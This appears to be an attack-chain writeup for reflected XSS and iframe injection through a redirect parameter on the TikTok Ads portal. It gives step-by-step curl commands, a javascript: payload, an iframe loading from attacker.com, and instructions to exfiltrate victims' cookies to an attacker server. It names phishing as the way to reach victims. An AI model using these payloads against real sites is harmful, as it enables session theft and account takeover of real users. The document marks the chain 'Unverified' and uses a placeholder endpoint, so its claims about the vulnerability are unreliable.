

# Reflected XSS and Iframe Injection in TikTok Ads Portal via Redirect Parameter

Multi-stage attack chain demonstrating exploitation of unsanitized redirect parameters in the TikTok Ads portal to execute arbitrary JavaScript and embed malicious iframes, leading to session theft and potential account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform (TikTok Ads portal)
- No specific ports required (HTTPS/443 implied)
- Internet access to the ads.tiktok.com endpoint

### Initial Access Requirements

- No credentials needed for initial testing (public-facing)
- Victim must be authenticated user of the portal
- Ability to craft and deliver malicious URLs (e.g., via phishing)

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Redirect-Endpoint]]

**Objective**: Locate the TikTok Ads portal endpoint that processes the 'redirect' parameter without sanitization.

**Instructions**: Use [[commands/curl-redirect-test]] to probe the endpoint for reflection:

```bash
curl -X GET "https://ads.tiktok.com/some-endpoint?redirect=https://example.com" -v
```

Inspect the response for unsanitized output of the redirect value.

**Expected Output**: HTTP response showing the redirect parameter reflected in HTML without encoding.

**Success Indicators**:
- Parameter value appears in response body
- No URL encoding or script blocking observed

### Step 2: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS]]

**Objective**: Inject and execute arbitrary JavaScript in the victim's browser to steal session data.

**Instructions**: Craft a payload using [[commands/curl-xss-payload]] and deliver via a malicious link:

```bash
curl -X GET "https://ads.tiktok.com/some-endpoint?redirect=javascript:alert('XSS')" -v
```

For exfiltration, replace with a script that sends cookies to an attacker-controlled server.

**Expected Output**: Alert box or network request to attacker's server confirming execution in browser.

**Success Indicators**:
- JavaScript executes in victim's session
- Session cookies or tokens captured

### Step 3: Inject Malicious Iframe
procedure: [[procedures/Inject-Malicious-Iframe]]

**Objective**: Bypass same-origin policy by embedding external malicious content, enabling clickjacking or further exploits.

**Instructions**: Use [[commands/curl-iframe-payload]] to test iframe injection:

```bash
curl -X GET "https://ads.tiktok.com/some-endpoint?redirect=<iframe src=\"https://attacker.com/malicious\"></iframe>" -v
```

Observe the rendered iframe in the browser response.

**Expected Output**: Iframe loads external content without restrictions.

**Success Indicators**:
- External site loads within the portal page
- Potential for overlay attacks confirmed

## Attack Chain Summary

### Key Achievements

1. Identified unsanitized redirect parameter in TikTok Ads portal
2. Executed reflected XSS for JavaScript injection and session theft
3. Injected iframes to load malicious external content, enabling advanced phishing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
